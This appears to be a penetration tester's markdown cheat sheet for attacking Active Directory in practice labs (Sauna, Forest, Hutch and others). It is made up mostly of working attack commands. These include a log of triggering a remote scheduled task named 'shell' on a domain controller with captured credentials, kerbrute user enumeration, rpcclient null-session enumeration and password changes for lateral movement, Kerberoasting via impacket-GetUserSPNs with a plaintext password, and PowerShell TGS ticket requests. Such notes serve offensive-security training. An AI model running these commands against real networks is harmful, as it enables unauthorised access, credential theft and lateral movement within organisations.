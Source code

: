 ```bash
SUCCESS: The scheduled task "shell" has successfully been created.
PS C:\windows\system32\inetsrv>

PS C:\windows\system32\inetsrv> Invoke-Command -Computer hutchdc -ScriptBlock { schtasks /run /tn shell } -Credential $creds
Invoke-Command -Computer hutchdc -ScriptBlock { schtasks /run /tn shell } -Credential $creds
SUCCESS: Attempted to run the scheduled task "shell".
PS C:\windows\system32\inetsrv>
```

### kerbrute
user enum
`kerbrute userenum --dc egotistical-bank.local -d egotistical-bank.local /usr/share/wordlists/SecLists/Usernames/xato-net-10-million-usernames.txt -t 40`

### rpcclient
useful website
https://www.hackingarticles.in/active-directory-enumeration-rpcclient/
conntect to target
`rpcclient -U '' 10.129.1.77`

enum users
`enumdomusers`

users query
`queryuser user01`

change password if have privilege (good for lateral movement)
`chgpasswd raj Password@1 Password@987`
### other userful tips

boxes related to active directory:

HTB: active sauna forest
proving ground: Hutch Heist Vault
PWK lab svcorp.com xor.com 

use impacket-GetUserSPNs to get TGS tickets
`impacket-GetUserSPNs egotistical-bank.local/fsmith:Thestrokes23 -dc-ip 10.10.10.175 -request`

or do it with powershell:
```
Add-Type -AssemblyName System.IdentityModel;
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList 'MSSQLSvc/xor-app23.xor.com:1433' 
```

if facing clock skew issue:
`sudo ntpdate <IP>`

lateral movement could require port forwarding, in that case chisel is my go-to
https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html#examples

finding ip addess of machine
```
PS C:\Windows\system32> ping xor-app23
ping xor-app23

Pinging xor-app23.xor.com [10.11.1.121] with 32 bytes of data:
Reply from 10.11.1.121: bytes=32 time<1ms TTL=128

```
